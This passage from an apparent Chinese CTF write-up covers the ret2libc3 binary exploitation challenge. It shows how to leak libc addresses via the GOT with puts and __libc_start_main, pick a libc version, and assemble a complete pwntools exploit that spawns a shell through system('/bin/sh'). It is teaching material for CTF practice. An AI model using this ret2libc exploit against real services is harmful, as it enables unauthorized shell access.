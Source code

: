 现在这个偏移是完全正确的了，也就是我们刚刚那个完整exp里面写的

但是现在遇到的问题就是这个libc的版本会显示很多个，到底哪个才是正确的，这里有一种办法就是添加一个其他已经执行过的函数

这里使用__libc_start_main然后它输出的可能版本就只有两个了，这两个版本区别太小，其实可以直接都试一遍，因为其实只是/bin/sh的偏移有略微区别

[![](https://www.onctf.com/images/image-20210726113021222.png)](https://www.onctf.com/images/image-20210726113021222.png)

刚刚这个__libc_start_main的真实地址其实就是改一下获取puts函数的真实地址的代码就好了

|   |   |
|---|---|
|1|```<br>puts_got_addr = elf.got['__libc_start_main']<br>```|

只需要改这句把puts换成__libc_start_main就可以了

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9  <br>10  <br>11  <br>12  <br>13  <br>14  <br>15|```<br>from pwn import *p = process('./ret2libc3')elf = ELF('./ret2libc3') libc_start_main_got_addr = elf.got['__libc_start_main']puts_plt_addr = elf.plt['puts'] #这句不用改，依然使用puts的pltmain_plt_addr = elf.symbols['main']payload = ''payload += 'A'*112payload += p32(puts_plt_addr)payload += p32(main_plt_addr)payload += p32(libc_start_main_got_addr)p.recv()p.sendline(payload)puts_addr = u32(p.recv()[0:4]) print hex(puts_addr)<br>```|

[![](https://www.onctf.com/images/image-20210726113739187.png)](https://www.onctf.com/images/image-20210726113739187.png)

整个题目涉及到的知识点太多了，关于ret2libc的题目在比赛中还是比较常见的，这种几十行的exp相对于之前几行的exp是一个巨大的提升，所以这个题目花时间去理解是很有必要的，最后在放一个稍微简化一点的exp，就是把payload不分行打出来了，写在一行里面，这样代码会看的稍微简单点

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9  <br>10  <br>11  <br>12  <br>13  <br>14  <br>15  <br>16  <br>17  <br>18  <br>19|```<br>from pwn import *p = process('./ret2libc3')elf = ELF('./ret2libc3')puts_got_addr = elf.got['puts']puts_plt_addr = elf.plt['puts']main_plt_addr = elf.symbols['_start']payload1='A'*112+p32(puts_plt_addr)+p32(main_plt_addr)+p32(puts_got_addr)p.recv()p.sendline(payload1)puts_addr = u32(p.recv()[0:4]) puts_offset = 0x5fcb0sys_offset = 0x3adb0sh_offset = 0x15bb2b libc_base_addr = puts_addr - puts_offsetsys_addr = libc_base_addr + sys_offsetsh_addr = libc_base_addr + sh_offset payload2='A'*112+p32(sys_addr)+"AAAA"+p32(sh_addr)p.sendline(payload2)p.interactive()<br>```|